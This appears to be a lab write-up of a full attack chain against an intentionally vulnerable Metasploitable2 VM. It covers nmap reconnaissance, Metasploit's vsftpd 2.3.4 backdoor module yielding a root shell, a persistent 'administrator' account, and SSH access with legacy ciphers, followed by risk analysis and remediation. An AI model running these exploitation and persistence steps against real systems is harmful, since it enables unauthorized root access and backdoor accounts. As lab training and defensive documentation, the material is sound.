








# **Metasploitable2 Exploitation Workflow**  
### **Environment:** VirtualBox — Kali Linux (Attacker) → Metasploitable2 (Target)

---

## **Executive Summary**

This case study documents a complete exploitation workflow performed against a vulnerable Linux system running inside a VirtualBox environment. The engagement begins with controlled initialization of both virtual machines, followed by reconnaissance, exploitation of a known backdoor in vsftpd 2.3.4, privilege confirmation, persistence through local account creation, and remote access validation via SSH.

The workflow demonstrates a full attack chain:

**environment setup → recon → exploit → root access → persistence → remote access**

All findings are supported by direct command output captured during the engagement.

---

## **1. Environment Initialization**



Both virtual machines were launched through Oracle VirtualBox:

- **kali-linux-2025.2-virtualbox-amd64** (attacker)  
- **Metasploitable2** (target)

---

## **2. Target System Access**

### **2.1 Login**
```
login: msfadmin
Password: msfadmin
```

### **2.2 Network Configuration**
```
ip a

2: eth0:
    inet 192.168.100.4/24
```

Target IP confirmed: **192.168.100.4**

---

## **3. Attacker System Preparation**


### **3.1 Launch Metasploit**
```
msfconsole

=[ metasploit v6.4.110-dev ]
+ -- --=[ 2,601 exploits - 1,322 auxiliary - 1,710 payloads ]
```

---

## **4. Reconnaissance**



### **4.1 Service & Version Scan**
```
nmap -sC -sV 192.168.100.4
```

### **4.2 Results**
```
21/tcp   open  ftp     vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
```

vsftpd 2.3.4 is associated with a known backdoor vulnerability.

---

## **5. Exploitation of vsftpd 2.3.4 Backdoor**



### **5.1 Module Discovery**
```
search vsftpd 2.3.4

0  exploit/unix/ftp/vsftpd_234_backdoor
```

### **5.2 Load Module**
```
use 0
[*] No payload configured, defaulting to cmd/unix/interact
```

### **5.3 Review Options**


```
show options

RHOSTS  yes
RPORT   21
```

### **5.4 Configure Target**
```
set rhosts 192.168.100.4
rhosts => 192.168.100.4
```


### **5.5 Execute Exploit**
```
exploit

[*] 192.168.100.4:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.100.4:21 - USER: 331 Please specify the password.
[+] 192.168.100.4:21 - Backdoor service has been spawned, handling...
[+] 192.168.100.4:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened
```

### **5.6 Privilege Verification**
```
whoami
root
```

Root-level access obtained.

---

## **6. Persistence: Local User Creation**

### **6.1 Create User**
```
adduser administrator
Adding user `administrator' ...
Adding new group `administrator' ...
Creating home directory `/home/administrator/' ...
Enter new UNIX password: pass
Retype new UNIX password: pass
passwd: password updated successfully
```

### **6.2 Metadata Prompt**
```
Full Name []:
Room Number []:
Work Phone []:
Home Phone []:
Other []:
y
Is the information correct? [y/N] y
sh: line 12: y: command not found
```

User successfully created.



---

## **7. Remote Access Validation via SSH**

### **7.1 SSH Command**
```
ssh -oHostKeyAlgorithms=+ssh-rsa \
    -oKexAlgorithms=+diffie-hellman-group1-sha1 \
    -oCiphers=+aes128-cbc \
    administrator@192.168.100.4
```

### **7.2 Successful Login**
```
administrator@metasploitable:~$ whoami
administrator
```

Persistence validated.



---

## **8. Risk Analysis**

### **vsftpd 2.3.4 Backdoor**
- Severity: **Critical**  
- Impact: Immediate root shell  
- Exploitability: Trivial  
- Exposure: Publicly known malicious backdoor  

### **Anonymous FTP Access**
- Severity: **High**  
- Impact: Unauthenticated file access  
- Risk: Information disclosure  

### **Weak SSH Cryptography**
- Severity: **High**  
- Impact: Susceptible to downgrade attacks  

### **Default Credentials**
- Severity: **Critical**  
- Impact: Full system compromise  

---

## **9. Impact Assessment**

The exploitation chain resulted in:

- Full root compromise  
- Ability to create persistent accounts  
- Ability to establish remote access  
- Ability to modify system state  

This represents a complete security failure of the target system.

---

## **10. Remediation Recommendations**

### **10.1 Remove vsftpd 2.3.4**
- Replace with a maintained FTP server  
- Validate package integrity  

### **10.2 Disable Anonymous FTP**
- Restrict access to authenticated users only  

### **10.3 Update SSH Configuration**
- Disable legacy algorithms  
- Enforce modern ciphers  

### **10.4 Remove Default Credentials**
- Replace all default usernames and passwords  

### **10.5 Network Segmentation**
- Isolate vulnerable systems  

### **10.6 Continuous Monitoring**
- Enable logging and alerting  
- Monitor for unauthorized account creation  

---

## **Conclusion**

This engagement demonstrates a complete exploitation lifecycle against a vulnerable Linux system. Starting from VirtualBox initialization, the workflow progressed through reconnaissance, exploitation, privilege escalation, persistence, and remote access validation. The evidence confirms that the target system is critically vulnerable and requires immediate remediation.

This case study reflects the ability to:

- Build and manage controlled testing environments  
- Perform structured reconnaissance  
- Identify and exploit high‑impact vulnerabilities  
- Establish persistence and validate access  
- Document findings in a clear, professional format  
